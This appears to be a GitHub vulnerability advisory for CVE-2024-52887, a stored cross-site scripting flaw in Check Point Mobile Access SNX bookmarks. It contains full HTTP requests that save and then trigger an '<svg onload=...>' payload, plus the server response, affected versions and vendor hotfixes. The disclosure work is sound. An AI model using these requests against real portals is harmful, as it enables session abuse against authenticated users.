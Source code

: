 # CVE-2024-52887
Check Point Mobile Access portal SNX bookmarks  - Cross-Site Scripting (XSS)

## Timeline
- Vulnerability reported to vendor: 13.11.2024
- Public disclosure: 27.04.2025

## Description

A Cross-Site Scripting (XSS) vulnerability has been reported in Check Point Mobile Access portal SNX bookmarks. This flaw permits the execution of malicious scripts within the application, potentially compromising its confidentiality and integrity. While the vulnerability does not affect the application’s availability, successful exploitation could lead to unauthorized access to sensitive information and unintended actions performed on behalf of authenticated users.

Payload can be saved using following request:
```
POST /sslvpn/Portal/SaveSNXFavorite HTTP/1.1
Host: [REDACTED] 
Cookie: [REDACTED] 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: */*
Accept-Language: pl,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 205
Origin: [REDACTED]
Connection: keep-alive

Title=%3Csvg+onload%3Dalert(document.domain)%3E&Path=%3Csvg+onload%3Dalert(document.domain)%3E&Params=%3Csvg+onload%3Dalert(document.domain)%3E&Tooltip=%3Csvg+onload%3Dalert(document.domain)%3E&Id=93981731
```

After that payload can be loaded using following request:
```
GET /sslvpn/SNX/GetSnxBookmarks HTTP/1.1
Host: [REDACTED] 
Cookie: [REDACTED] 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: pl,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

This results in XSS:
```
HTTP/1.1 200 OK
Date: Fri, 06 Sep 2024 09:06:40 GMT
Strict-Transport-Security: max-age=31536000; includeSubDomains
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
Cache-Control: no-store
Vary: User-Agent
Content-Length: 2623
Keep-Alive: timeout=2, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

{"returnCode":0,"SnxAppsArray":[{"type":0,"embeddedAppType":"","url":"","title":"<svg onload=alert(document.domain)>","tooltip":"<svg onload=alert(document.domain)>","path":"<svg onload=alert(document.domain)>","params":"<svg onload=alert(document.domain)>",

[...]
```

## Affected versions
* Check Point Mobile Access R81.10
* Check Point Mobile Access R81.20
* Check Point Mobile Access R82 

## Advisory
Check Point has addressed this issue in following fixes:
* Jumbo Hotfix Accumulator for R82 starting from Take 14
* Jumbo Hotfix Accumulator for R81.20 starting from Take 99
* Jumbo Hotfix Accumulator for R81.10 starting from Take 173
Users are strongly advised to apply the relevant security patches to mitigate this vulnerability. For detailed information and guidance, please refer to sk183054. ￼

### References
* https://support.checkpoint.com/results/sk/sk183054
* https://support.checkpoint.com/results/sk/sk142952
* https://nvd.nist.gov/vuln/detail/cve-2024-52887
* https://www.cve.org/CVERecord?id=CVE-2024-52887
